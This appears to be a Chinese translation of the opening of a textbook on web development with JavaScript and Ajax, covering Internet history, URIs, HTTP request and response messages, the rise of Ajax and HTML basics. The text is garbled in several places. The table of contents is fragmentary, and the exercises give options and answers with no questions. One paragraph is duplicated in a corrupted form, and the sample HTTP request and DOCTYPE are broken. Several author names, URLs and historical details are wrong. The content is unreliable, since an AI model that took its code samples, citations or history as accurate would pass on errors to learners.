# JavaScript 和 Ajax Web 开发指南


佐治亚理工学院 佐治亚南方理工学院 霍夫斯特拉

研究所 州立大学 大学 大学


2009年印于美国。

12 11 10 08 9 7 6 5 4 3 2 1



前言 xi

1.8 参考文献 18

4.4 文档对象模型 (DOM) 128

6.7 练习题 243

7.5 总结 263

8.5.1 页面导航 277

8.5.3 优化门户页面布局和CSS 283

- 8.9 里程碑 6：买家页面与 Dojo 框架 362

- 10.8 MySQL 471

- 10.8.1 概述 471

- 10.8.2 MySQL、PHP 和 Apache 实践实验 471

- 10.8.3 一个简单的 MySQL 应用 475

- 10.9 总结 477

## 索引 479

# 前言

《JavaScript 和 Ajax Web 开发深度详解》（Web Development with JavaScript and Ajax Illuminated）涵盖了开发 Ajax Web 应用程序的基本概念、技术、方法和实践。本书旨在用于计算机科学、信息技术、信息系统或其他相关领域的本科高年级或研究生的一学期 Web 开发课程。对于 Web 开发者来说，这本书也是一份极佳的自学参考书。

唯一的先决条件是具备编程经验——课程中获得的经验即可。除此之外，我们希望读者熟悉互联网并创建过几个网页。虽然如果读者在 PHP 和 Java 方面做过一些开发工作将有所帮助，但书中的示例足够简单，任何有编程经验的读者都能理解。

# 概述

本书包含了学生所需的必要元素，使其能够使用标准的 Web 技术（如 (X)HTML、CSS、XML 和 JavaScript）开始开发具有桌面级用户交互的 Web 应用程序。本书主要涵盖客户端 Web 开发，因为 Ajax 在这方面的影响最大。本书还包含了足够的服务端代码，允许学生创建完整的示例。

书中的所有示例都使用了开源或免费软件，学生可以在自己的电脑上下载并安装，包括：支持 Web 标准和 JavaScript 的现代 Web 浏览器、Firebug、Dojo、NetBeans IDE™、PHP、Java™、Apache Web 服务器、Apache Tomcat Java 应用服务器以及 GlassFish Java 应用服务器。所有示例的源代码均可在网上获取。

在这一介绍性章节中，我们从互联网的历史和网页与用户交互的演变开始。我们对 Web 架构基础的讨论包括 HTTP 消息、HTTP 标头、HTTP 请求/响应模型、Web 浏览器与服务器之间的交互以及 URL 的组成部分。书中介绍了 Ajax 技术（包括涉及的技术），并讨论了 Ajax 流行的原因。

这是本书三个基础章节中的第一章。在本章中，我们涵盖了 (X)HTML 和 CSS，让读者理解如何使用这些技术创建自己的网页。本章还提供了更多关于 HTTP、GET 和 POST 区别以及如何使用 HTML 表单的详细信息。

作为第二个基础章节，本章涵盖了 XSLT。我们讨论了使用 XML 的动机和重要性。最后，本章详细介绍了使用 SAX 的 XML 解析。

作为第三个基础章节，本书涵盖了 JavaScript 语言。在对 JavaScript 的讨论中，我们介绍了它支持的数据类型、面向对象的特性、词法作用域和闭包、内置函数，以及浏览器对象模型（BOM）和文档对象模型（DOM）。

在本章中，我们介绍了将 Ajax 技术集成到 Web 应用程序中的方法，并通过一个完整的实现展示了满足需求所做的决策。JavaScript 和 Dojo 使用在客户端，而 Java 使用在服务端。

本章概述了使用 Dojo 库的优势。我们关注在整个章节中使用 Dojo 库的基本用法。

本章探讨了 Ajax 开发中的技术挑战和最佳实践。它还讨论了用于确保代码质量的开源工具。最后，我们关注 Ajax 的安全问题。

本章的目的是展示一个可以从 Ajax 解决方案中受益的网站，并完成设计和实现，展示为了实现网站目标所做的决策。

最后一章讨论了 Web 应用程序的未来。它涵盖了 Web 1.0、2.0、3.0 等术语，以及语义网的概念。此外，它还介绍了下一代 HTML 表单——XForms。

有关下载、安装和配置书中使用的各种工具的信息请见附录。

## Ajax 简介

章节目标

- 简述互联网的历史

- 描述基础的 Web 架构，包括 URL 和 HTTP

- 讨论 Web 上的用户交互是如何演变的

- 讨论 Ajax 是什么以及它为什么重要

你可能还不完全清楚 Ajax 是什么以及它涉及哪些技术，但你可能已经使用过基于 Ajax 构建的网站。互联网上许多受欢迎的网站都使用 Ajax，包括 Google Maps (http://maps.google.com)、Yahoo! (http://www.yahoo.com)、Facebook (http://www.facebook.com)、Flickr (http://fflickr.com) 以及 Amazon.com 的 A9 搜索引擎 (http://a9.com)。互联网从最初作为科学家交换研究文档的工具，演变为动态、分布式应用的平台，经历了巨大的变化。最近的演进将桌面应用程序的用户体验带到了 Web 端——这正是通过 Ajax 实现的。本书将教你你开发这类动态 Web 应用程序所需的 Basic技能，这些应用程序可以为用户提供类似于桌面应用程序的体验。但在之前，我们将先回顾一下历史。

## 1.1 历史课

互联网和万维网（World Wide Web，WWW），有时合称为 Web，彻底改变了公司经营业务的方式甚至人类交流的方式。今天，你可以在 Web 上购买任何东西，在 Web 上管理你所有的财务账户，在 Web 上看电视节目和电影，在 Web 上随时方便地进行业务会议，更多的人口从 Web 获取日常新闻和信息，而且许多人宁愿通过电子邮件或即时消息进行交流，而不是通过电话。

互联网是一个全球性的计算机网络，它将数百万台政府、大学和私立计算机连接在一起。这个网络提供了一种通信机制，任何类型的数据（文本、图像、视频等）都可以在连接的计算机之间交换。这些计算机物理位置可能位于地球的两端，数据可以在几秒钟内完成交换。尽管“Internet”和“WWW”这两个词经常混用，但它们是不同的。互联网是全球计算机（以及手机等其他设备）网络，而 WWW 指的是该网络包含的全球可用网站加上 FTP（文件传输协议）、USENET 新闻组等。电子邮件不被视为 WWW 的一部分，但它是通过互联网实现的技术。

Web 起始于 20 世纪 60 年代初，当时一些远见者看到了允许计算机在研究和军事领域共享信息的巨大潜力。1961 年，马萨诸塞理工学院（MIT）的 J.C.R. Licklider 提出了一个全球计算机网络。1961 年至 1964 年间，Leonard Kleinrock 在加州大学洛杉矶矶分校（UCLA）撰写博士论文期间，开发了分组交换的概念，这是今天互联网通信的基础。1965 年，MIT 的 Lawrence Roberts 和 Thomas Merrill 开始为国防高级研究计划署（DARPA，当时称为高级研究计划署 ARPA）工作，以实现他的想法。

1966 年，Roberts 开始工作，通过拨号线路成功地将马萨诸塞的一台计算机与另一处的一台计算机连接——这是首个大规模的计算机网络，称为广域网（WAN），当时他意识到国家物理实验室（NPL）的 Donald Davies 和兰德公司（RAND）的 Paul Baran 的工作与 MIT Kleinrock 开发的分组交换是不谋而合的。巧的是，这三个小组（MIT、NPL 和 RAND）的早期工作是并行进行的，且互不知对方。“数据包”（packet）一词实际上是采用了 BBN 的工作用于 ARPANET。1970 年，开发了 ARPANET 的第一个主机到主机协议，称为网络控制协议（NCP）。1972 年，BBN 的 Ray Tomlinson 为 ARPANET 开发了电子邮件。1973 年，斯坦福大学的 Vincent Cerf 和 UCLA 的 Bob Kahn 开始开发 NCP 的替代方案，后来被称为传输控制协议/网协议（TCP/IP）。1983 年，ARPANET 转向使用 TCP/IP。

## 1.2 基础 Web 架构

大多数 Web 流量来自浏览器（例如 Internet Explorer, Firefox, Safari）。浏览器向 Web 服务器发送 HTTP 消息以获取数据（文本、图像、视频等），并从服务器接收响应的 HTML 文档。HTTP 的标准端口是 80，大多数计算机已经预晓该端口，因此通常可以省略。如果 Web 服务器正在监听不同的端口连接（如 8080），则需要指定该端口。

图 1.2.1 Web 浏览器与 Web 服务器的典型交互

### 1.2.1 资源标识符 (URI)/资源定位符 (URL)

Web 浏览器总是与 Web 服务器建立 TCP/IP 连接，反之亦然。浏览器识别要与哪个 Web 服务器建立连接以及请求什么，即资源定位符（URL）。URL 是一种通过位置识别资源的资源标识符（URI）。URI 是一个更通用的术语，涵盖了所有类型的标识方案。

URI 简单来说就是浏览器地址栏中输入的地址，例如 `http://www.w3c.org`。URI 由几个部分组成——方案、权威、路径、查询和片段。该图展示了 URI 各部分的划分。

```
http://www.w3c.org:80/Markup/HTML?ver=1_0#xhtml
```

- query（查询）：可选的查询是需要由 Web 服务器解释的信息。它被用于提供路径中未包含的额外信息，或向 Web 服务器提交文本数据。查询可以包含多个由 `&`（和符号符号）分隔的 `name=value` 对。每个名称通过 `=`（等号）与其关联的值隔开。

- fragment（片段）：可选的片段用于标识文档内的位置。这部分实际上是由 Web 浏览器而非 Web 服务器使用的，它将您带到文档中的特定位置。`#`（井号）用于将片段与 URI 的其他部分分开。


## HTTP 超文本传输协议（HTTP）是一种无状态协议，支持请求后跟随响应（请求-响应消息交换模式）。之前我们描述了 Web 浏览器和 Web 服务器之间 HTTP 的用法；然而，HTTP 消息也经常在 Web 服务器之间或不需要人工交互的其他应用程序之间交换。HTTP 不要求使用 Web 浏览器；它仅仅描述了数据如何在使用 TCP/IP 的网络（例如互联网）上进行交换。默认情况下，HTTP 使用计算机上 80 端口的 TCP/IP 连接，但其他端口也可以且通常经常被使用。一个 HTTP 事务从客户端的请求开始，以服务器的响应结束。

### HTTP 请求

一个 HTTP 请求消息由三部分组成：

1. 一行定义了 HTTP 方法、请求的 URI 和使用的 HTTP 版本；
2. 一组 HTTP 请求头列表；
3. 实体正文（entity body）。

下面是一个 HTTP 请求消息示例：

```http
/catalog/prices HTTP/1.1[CRLF]
Host: www.mysomesite.com[CRLF]
Connection: close[CRLF]
Accept-Encoding: gzip[CRLF]
Accept: text/plain; text/html[CRLF]
Accept-Language: en,en[CRLF]
Accept-Charset: ISO-8859-1,utf-8[CRLF]
User-Agent: Mozilla/5.0 Gecko/20041107 Firefox/1.0[CRLF]
Referer: http://web-sniffer.net/][CRLF]
Content-Length: 16[CRLF]
Content-Type: application/x-www-form-urlencoded[CRLF]
productID=ABC123[CRLF]
```

上述消息中的 `[CRLF]` 标签代表回车/换行符（CRLF）字符。你通常看不到它们；然而，它们在 HTTP 消息中具有重要意义，因此在此处显示。CRLF 字符用于分隔头部的每一行，以及头部与实体正文。消息头包括第一个空行（带有 CRLF 的那行）之前的所有行。第一个空行定义了消息头结束和实体正文开始的位置。

HTTP 请求消息中出现在第一行之后、空行之前的每一行都称为 HTTP 请求头（header）。HTTP 请求包含了关于客户端环境和实体正文的有用信息，例如所使用的 Web 浏览器类型、浏览器配置的语言以及实体正文的长度。HTTP 请求消息的第一行包含 HTTP 方法（`GET`）、URI（`/catalog/prices`）以及协议/版本（`HTTP/1.1`）。HTTP 方法告诉 Web 服务器有关消息结构以及客户端期望 Web 服务器执行的操作的信息。HTTP 的最新版本是 1.1 版本。HTTP 1.1 规范在表 1.2.1 中定义了这些方法。`GET` 和 `POST` 方法使用最广泛。

### HTTP 响应

一个 HTTP 响应消息也包含三部分，类似于请求消息：

1. 一行定义了所使用的协议、识别请求是否成功的状态码以及描述；
2. 一组 HTTP 响应头列表；
3. 实体正文。

下面是一个 HTTP 响应消息示例：

```http
HTTP/1.1 200 OK[CRLF]
Date: Sun, 13 Mar 2005 22:07:43 GMT[CRLF]
Server: Apache/2.0.49[CRLF]
Last-Modified: Sun, 17 Oct 2004 00:26:16 [CRLF]
Content-Length: 70[CRLF]
Keep-Alive: timeout=15, max=99[CRLF]
Connection: Keep-Alive[CRLF]
Content-type: text/html;charset=UTF-8[CRLF]
[CRLF]
<html>[CRLF]
<head>[CRLF]
<title>Example</title>[CRLF]
</head>[CRLF]
<body>[CRLF]
Hello World![CRLF]
</body>[CRLF]
</html>[CRLF]
```

## Java Applet 与框架

用于 3D 查看和旋转分子的 Java Applet 示例。

**MoleculeViewer（示例 1）**

除了对 Java 编程语言的支持，Netscape 2 还包含一个名为 JavaScript⁴ 的脚本语言的解释器（最初称为 Mocha，然后是 LiveWire，然后是 LiveScript，最后是 JavaScript）。JavaScript 的版本仅允许开发者修改 HTML 表单的内容；然而，这是巨大的一步。开发者可以在浏览器中进行一些原生处理，例如表单输入的验证，而无需让用户等待数据发送到服务器并在浏览器中加载响应。在那个时代，大多数用户通过 28.8 Kbps 的调制解调器连接到互联网——这比今天的高速连接要慢得多。

Netscape 2 引入的另一个流行功能是框架（frames）。`<frameset>` 标签允许浏览器窗口被划分为多个子窗口（多个 `<frame>` 标签），每个子窗口都可以加载它自己的页面。开发者通常使用框架来减少用户在浏览网站时需要从服务器下载的数据量。一个或多个小框架会加载页面间不会改变的视图部分（例如菜单），而主框架将包含发生变化的内容。

很快，开发者也意识到他们可以隐藏或最小化框架的大小，用于客户端服务器通信的隐藏框架技术应运而生。

> ⁴JavaScript 是一种与 Java 完全不同的编程语言。



隐藏框架加载一个包含表单的网页，并使用 JavaScript 动态填充表单将其提交到服务器。这种后通道通信变得流行，特别是当 `<iframe>` 标签在 HTML 4.0 中标准化之后。Iframe 允许开发者在不使用 `<frameset>` 的典型网页中嵌入一个隐藏框架。

## DHTML、DOM 与 Mozilla

1996 年，随着 Netscape 4 和 Internet Explorer 4 引入动态 HTML（DHTML），网页页面用户交互的演进迈了下一个重大步骤。在此之前，开发者无法更改网页的内容。Netscape 3 让图像的位置变得可编辑，这允许开发者在用户悬停在图像上时更改图像，但在 DHTML 出现之前，几乎没有网页部分可以被动态修改，直到 DHTML 赋予了开发者使用 JavaScript 更改页面大部分部分的能力。开发者很快学会将隐藏框架技术与 DHTML 结合，使得页面的任何部分都可以从服务器刷新，从而开启了网页用户交互的新时代。

Internet Explorer 在实现 DHTML 方面比 Netscape 做得更好。加上 Internet Explorer 是免费并随 Microsoft 操作系统分发的这一事实，使得在 1999 年第 5 版本发布时，它已经击垮了竞争对手。在此期间，W3C 大大扩展并标准化了随 DHTML 引入的功能，将它们的规范称为文档对象模型（DOM）。DOM 及其伙伴规范层叠样式表（CSS）的开发，是希望各种浏览器供应商能够实现它们，以简化开发者的工作。如果没有标准，开发者必须在脚本中避免使用混淆的逻辑，以支持人们使用的各种浏览器私有实现。Internet Explorer 5 以及随后的 6 版本对 W3C 标准有更好的支持，但仍远未理想。

由于激烈的竞争和收入的缺乏，Netscape 决定将其代码开源，并号召全球开发者帮助他们创建一个更好的浏览器。其结果，Mozilla 项目成立了。Mozilla 决定从头重写浏览器，以对现在已行的 W3C 标准提供最好的支持。

Mozilla 项目花费了近 4 年的时间在 2002 年创建了他们浏览器的第一个正式发布版本 Mozilla 1.0。由于缺乏浏览器竞争，在此期间，网页用户交互方面取得了巨大进展——直到 Google 决定进入在线地图业务为止。

## Ajax

2005 年 2 月 18 日，Adaptive Path 的 Jesse James Garrett 发表了一篇题为《Ajax：Web 应用的新方法》的在线文章。他最初从 Asynchronous JavaScript And XML（异步 JavaScript 和 XML）的缩写创造了这个术语。在 Garrett 的文章中，他讨论了由于技术的结合，Web 应用的用户体验如何接近桌面应用程序，尽管这些技术本身已经可用多年。这些技术是 HTML、CSS、DOM、JavaScript、可扩展标记语言（XML）以及一个名为 `XMLHttpRequest` 的 JavaScript 对象。

该栈中的关键技术是 `XMLHttpRequest`，它在 Garrett 文章之前很久以前就已经在 Internet Explorer 5 中引入了。等 Garrett 写文章时，`XMLHttpRequest` 已被所有主流浏览器支持，但在那之前它并不流行，也几乎没有关注。为什么 `XMLHttpRequest` 如此特别？因为它允许从 JavaScript 发起后台异步请求。该请求的产生不会影响用户正在查看的页面，也不会锁定用户界面。图 1.4.1 展示了使用 Ajax 和不使用 Ajax 的应用程序的区别。

在传统的 Web 应用中，用户点击链接或按钮后发生的交互如下：

1. 浏览器向 Web 服务器发送 HTTP 请求；
2. Web 服务器通常从数据库查询数据；
3. Web 服务器执行一些计算并可能与另一个系统通信；
4. Web 服务器向浏览器响应。

在传统的 Web 模型中，服务器必须响应整个新页面，这种往返是耗时的，因为在服务器加载新页面时用户必须等待。而在 Ajax 模型中，这种加载页面的部分是不必要的。

> https://adaptivepath.com/ideas/archives/000385.php

## Web 应用





相比之下，在 Ajax 应用中用户点击链接或按钮后发生的交互如下：

1. 调用“Ajax 引擎”，它仅仅是处理与服务器异步通信的 JavaScript 代码；
2. Ajax 引擎向 Web 服务器发起请求；
3. Web 服务器通常从数据库查询数据；
4. Web 服务器执行一些计算并可能与另一个系统通信；
5. 服务器向浏览器仅返回它需要的数据；
6. JavaScript 代码使用新数据更新用户界面。

在传统模型中，服务器必须响应整个 HTML 页面，但在 Ajax 模型中它可以仅响应需要的数据：HTML 片段、XML、纯文本等等。Ajax 引擎处理这些数据并使用它们更新页面。此外，在传统模型中，用户必须等待请求处理，但在 Ajax 模型中请求在独立线程中处理，因此用户可以继续使用页面。不再点击并等待。

那么 Google 与此有什么关系？嗯，在 Garrett 的文章中提到了 Google Maps⁷、Google Suggest⁸ 和 Gmail⁹ 作为这种新技术的示例。Gmail 是一种使用 Ajax 执行各种操作的在线电子邮件应用，例如在发送信件前自动保存草稿。Google Suggest 为 Google 搜索增加了一个简单功能，在几乎时几乎时列出建议词。Google Maps 是这些 Ajax 示例中最复杂的。它允许你在地图上查找点，并通过鼠标平移和缩放地图，一切非常流畅，且都在同一个原始页面完成（见图 1.4.2）。

Google 不是当时唯一开始 Ajax 技术的公司，但它是最著名的之一。此外，Google 并不以华丽的网页闻名。Google 的声誉源于一个只有文本框和按钮的纯白网页。然而，Google 对 Ajax 使用证明了该技术不仅可行，而且适用于高流量的专业网站。Garrett 新颖、响亮的名字和来自大公司的知名案例点燃了火花。Ajax 在一夜之间声名大噪。



> ⁷http://maps.google.com
>
> ⁸http://www.google.com/webp?complete=1&hl=en
>
> ⁹http://gmail.com


Internet Explorer 在 HTML 的运用上比 Netscape 做得更好。Internet Explorer 免费并随 Microsoft Windows 操作系统发布的这一事实，将竞争推向了边缘。Netscape 出于 1999 年。在此期间，W3C 大力扩展并标准化了 HTML 4.0、CSS 和 JavaScript 引入的特性。DOM 及其规范——级联样式表（CSS）的开发，希望各种浏览器供应商能够实现它们，从而使开发者的工作更加顺畅。

**图 1.3**

Google Docs 在线文字处理器

现在 Ajax 与另一个流行语 Web 2.0 联系在一起。2004 年 10 月，O'Reilly Media 举办了一场名为 Web 2.0 的会议¹⁰，从那时起短语就流行了起来。

关于 Web 2.0 是什么，以及 Web 1.0 是什么，存在很多困惑。O'Reilly 的部分将 Web 2.0 定义为：Web 从一种将内容带到桌面应用程序的方式，转变为一个交付全规模应用且流畅到足以取代桌面应用的平台。这种转变特别通过 Ajax 才得以。对许多人来说，Google 的 Ajax 应用是 Netscape 主导的 Web 1.0 与 Google 主导的 Web 2.0 之间的界限——即销售软件与销售服务的区别。

Web 应用取代桌面应用的一个绝佳例子是 Google Docs¹¹，它是一个创建文档、电子表格和演示文稿的在线工具。与其使用 Microsoft Word、Excel 和 PowerPoint，你可以使用 Google Docs。你获得的工具不仅可以创建这些文档，还可以导入 Microsoft 文档并与他人在线轻松共享你的文档（参见图 1.4.3）。

随着时间的推移，我们可能会看到更多从桌面到 Web 的转型。这是一个令人兴奋的时代，可能性似乎是无尽的。

¹⁰http://www.oreilly.net/pub/a/oreilly/tim/news/2005/09/30/what-is-web-20.html

¹¹http://docs.google.com

## Ajax 的定义与相关技术

现在你知道 Ajax 是什么了。它并不是一种特定的技术，而是使用现有技术来改进网页用户交互的技巧。它本质上是一种与 Web 服务器通信而无需刷新用户正在查看页面的方法。Jesse Garrett 最初将 Ajax 描述为一种使用特定技术（包括 XML 和 `XMLHttpRequest`）的技巧。然而，根据我们的定义，许多技术都可以被放在 Ajax 的伞下。

首先，使用 Ajax 并不要求使用 XML。你在浏览器和服务器之间传输的数据可以是你任何想要的任何内容。其次，并不要求使用 `XMLHttpRequest` 来发送后台请求，因为你可以使用 IFrame。

除了标准的 Web 技术外，还有其他技术也经常被用于提供“富交互互联网应用”（一个由 Macromedia 创造的术语）。例如，我们已经提到了如何在网页中嵌入 applet。你可以用该 applet 处理整个用户界面，或者只用它来处理与服务器的通信，以替代 `XMLHttpRequest`。

另一种除了 Web 浏览器外还需要安装的流行技术是 Adobe Flash¹²。Flash 提供了丰富的用户交互，但主要的缺点是工具昂贵。因为你可以在不使用 XML 或 `XMLHttpRequest` 的情况下创建类似 Ajax 的体验，Garrett 修改了他的原始文章，去掉了“Ajax”作为一个缩写。现在“Ajax”仅被认为标识该技巧的术语。

本书是关于教你如何使用标准的 Web 技术——HTML、CSS、XML 和 JavaScript 来开发 Ajax Web 应用（对于 Java Applets 或 Flash，你将需要在其他地方查看）。当你读完这本书时，你应该已经有了创建自己的类似 Google Maps 的应用所需的知识。

在你继续阅读这本书之前，请花些时间浏览一下，体验本章中提到的 Ajax 应用以及你能找到的任何其他应用。这样做将让你更好地理解你正在尝试学习的内容。

¹²http://www.adobe.com/products/flash/

## 练习题

- a. 正确
- b. 错误

- a. 仅 HTTP 请求
- b. 仅 HTTP 响应
- c. 以上两者都是

- a. 正确
- b. 错误

- a. 正确
- b. 错误

- a. 正确
- b. 错误

- a. GET 和 POST
- b. GET 和 PUT
- c. HEAD 和 GET
- d. HEAD 和 DELETE

- a. 正确
- b. 错误

答案：1. a；2. c；3. b；4. b；5. a；6. a；7. b。

## 参考文献

- Berners-Lee, T., R. Fielding, and L. Masinter. 统一资源标识符（URI）：通用语法。网络工作组，2005。http://www.gbiv.com/protocols/uri/rfc3986.html（访问于 2008）。
- Boutell, Inc. 常见问题。2005。http://www.boutell.com/new/。
- Byon, J. Java 技术：早期。Sun Microsystems。2008。http://java.sun.com/features/1998/05/birthday.html（访问于 2008）。
- Garrett, James Marie. Ajax：Web 应用的新方法。Adaptive-Path, LLC。2008。https://www.adaptivepath.com/ideas/essays/0385.php（访问于 2008）。
- Howe, Walt. 2 浏览器的简史。Walt Howe。2008。http://www.walthrow.com/navnet/history.html（访问于 2008）。
- Keith, Jeremy. 2007。防弹 Ajax。Berkeley, CA：New Riders。


## 参考文献

Koch, Peter-Paul. 浏览器历史。Peter-Paul Koch. 2008. http://www.quirksmode.org/browsers/history.html（访问于2008）。

Lenier, Barry M., Vinton G. Cerf, David D. Clark, Robert E. Kahn, Leonard Kleinrock, Daniel C. Lynch, Jon Postel, Larry G. Roberts, and Stephen Wolff. 互联网简史，版本 3.32。Internet Society。http://www.isoc.org/internet/history/brief.shtml（访问于2008）。

Fielding, R., J. Getty, J. Mogul, L. Masinter, and T. Berners-Lee. 超文本传输协议——HTTP/1.1。Internet Society，1999。http://www.ietf.org/rfc2616.txt（访问于2008）。

Mahemoff, Michael. 2006. Ajax 设计模式。Sebastopol, CA: O'Reilly Media。

Zakas, Nicholas C., Jeremy McPeak, and Joe Fawcett. 2007. 专业 Ajax，第 2 版。Indianapolis, IN: Wiley Publishing。

## Web 浏览器与 Web 应用程序

Web浏览器是一种图形化用户界面，允许用户与各种Web应用程序进行交互。Web浏览器通过互联网与托管这些应用程序的Web服务器通信。Web浏览器可以发送数据或服务的请求。Web服务器将回复并用一种名为 HTML（Hyper Markup Language 的简称，超文本标记语言）的语言返回响应数据。Web浏览器在渲染指令或默认值后，即可将数据呈现给用户。

本章的重点是介绍当前使用的超文本标记语言的基础知识。流行的 HTML 4 版本对语法错误的容忍度较高，且在 PC、PDA 或手机手机等各种显示设备上呈现数据方面支持有限。XHTML（Extensible Hypertext Markup Language 的简称，可扩展超文本标记语言）使用 XML（Extensible Markup Language，可扩展标记语言，将在第 3 章中介绍）重写了 HTML，以更好地支持在不同设备上进行灵活的呈现。目前浏览器对 XHTML 的支持仍然有限。任何支持传统的 HTML 4 版本的 Web 浏览器在本章中都将 HTML 和 XHTML 视为同义词。

一个典型的 Web 应用程序有四层：客户端的表示层（Web 浏览器）、Web 服务器的表示层、应用服务器的业务逻辑层以及数据库服务器的数据库层。HTML（XHTML）将用于定义逻辑数据（内容）结构，而级联样式表（CSS）将作为定义 HTML 元素呈现样式的重要机制被介绍。由于 XHTML 是 XML 的一种方言，本章对 HTML 的介绍也作为后续章节讨论的 XML 的首次迭代介绍。

Web 浏览器和 Web 服务器通过 TCP/IP 网络传输层之上的一个名为 HTTP（Hypertext Transfer Protocol 的简称，超文本传输协议）的简单应用协议进行通信。本章将解释 HTTP 基础知识，以及如何使用 HTML 表单作为用户数据提交到 Web 服务器应用程序的主要机制。

## HTML 基础

HTML 是一种标记语言。HTML 文档基本上是一个标记了逻辑文档结构指令和文档呈现指令的文本文档。HTML 有多个版本。早期的 HTML 版本使用更宽松的语法，并且侧重于文档呈现而非文档结构，而最新的 HTML（称为 XHTML）使用更严格、更标准的 XML 语法来标记文本结构，并依赖独立的 CSS 来控制文档的呈现。这种文档结构与文档呈现的分离虽然尚未完全，但对于支持同一文档被各种现代呈现设备（包括 PC 和手机，这些设备必须使用不同的呈现标记）渲染至关重要。本章中的 HTML 概念示例基于 XHTML 1.0，目前所有最新的浏览器（包括微软的 Internet Explorer 和 Mozilla 的 Firefox）都支持它。

### 标签与元素

HTML 标签名是一个预定义的关键字，例如 `html`、`body`、`head`、`title`、`p`、`b`，且全小写，用于描述文档结构或呈现。

标签以起始标签 `<` 和 `>` 的形式使用，例如 `<html>` 和 `<p>`。起始标签是括在角括号中的标签名。结束标签与起始标签相同，不同在于标签名前之前有一个正斜杠 `/`，例如 `</html>` 和 `</p>`。

一个元素由一个起始标签和一个基于相同标签名的匹配结束标签组成，它们之间包含可选的文本或其他元素（即元素值）。以下是一些元素示例：

```html
<p>This is free text</p>
```

```html
<p>This element has a nested <b>element</b></p>
```

虽然元素可以嵌套，但它们不能被部分嵌套：元素的结束标签必须在其所有嵌套元素的结束标签之后（即先开始，后结束）。下例不是一个有效元素，因为它违反了上述规则：

```html
<p>This is not a valid <b>element</p></body>,
```

换行符、制表符和空格字符统称为空白字符（white-space characters）。空白字符序列在 Web 浏览器的数据呈现中起到单个空格的作用。因此，在正常情况下，只要你不删除连续单词之间的空白字符，HTML 文档的格式就并不重要（它不会改变在 Web 浏览器中的呈现方式）。结果是以下两个 HTML 元素是等价的：

```html
<html>
<body>
<p>Sample text</p>
</body>
</html>
```

```html
<html><body><p>Sample text</p></html>
```

如果一个元素不包含任何值，则起始标签和结束标签可以合并为一个，如 `<tagName/>`（某些特殊标签，如 `script`，不能使用这种组合）。因此，以下两个元素是等价的：

```html
<p></p>
```

元素的起始标签可能包含一个或多个属性，每个属性的格式为“属性名=属性值”。以下是一个带有两个属性的 `p` 元素：

```html
<p class="quotation" id="paragraph1">
```

如果属性值包含引号，它们应该使用单引号 `'`，例如：

```html
<p style="font: bold 24px 'Times New Roman'">
```

### HTML 文档结构

一个兼容 XHTML 1.0 的基本 HTML 文件必须以 `<!DOCTYPE>` 声明开始，随后是 `html` 元素。`DOCTYPE` 声明指定了一个通用标识符（URI；用于标识网络资源的唯一字符串），`//W3C//DTD HTML 1.0//EN` 是指向该 HTML 版本的统一资源定位符（URL），`http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd` 是定义该 HTML 版本的 DTD（文档类型定义，将在后续章节介绍）。

与任何 XML 文件一样，HTML 文件只能包含一个根元素（嵌套在其他元素中的元素）。所有其他文本和元素必须嵌套在这个根元素内部。对于 HTML 来说，这个根元素是 `html`。对于 XML 1.0 文件，`html` 元素的起始标签必须有一个命名空间属性 `xmlns`，值为 `http://www.w3.org/1999/xhtml`。有许多不同的 HTML 规范，这里指定的是 XHTML 1.0 采用的规范。

`html` 元素必须包含一个 `body` 元素，它包含了大部分数据。可选的 `head` 元素可以出现在 `body` 元素之前，用于指定浏览器标题栏显示的文档类型，以及任何 JavaScript 代码和 CSS 指令（将在本章后面介绍）。

以下是一个 HTML 骨架，你可以将其作为自己 HTML 文件的起点。注意所有 HTML 元素和属性名均为小写，但 `DOCTYPE` 必须大写。HTML 文件（以及 XML 和程序文件）中的所有引号字符串必须在一行内，尽管由于页面宽度限制，我们在书籍示例中必须对其换行，如下 HTML 骨架的第三行所示。当引号字符串必须跨行打印时，在第一行末尾加上 `\` 字符，以指示这两行在 HTML 文件中应该是同一行。本章对 HTML 特性的介绍将使用不完整的 HTML 片段。要尝试它们，只需将它们复制到此骨架的 `body` 元素中并在 Web 浏览器中显示结果即可。

```html
<!DOCTYPE html
//W3C//DTD HTML 1.0//EN
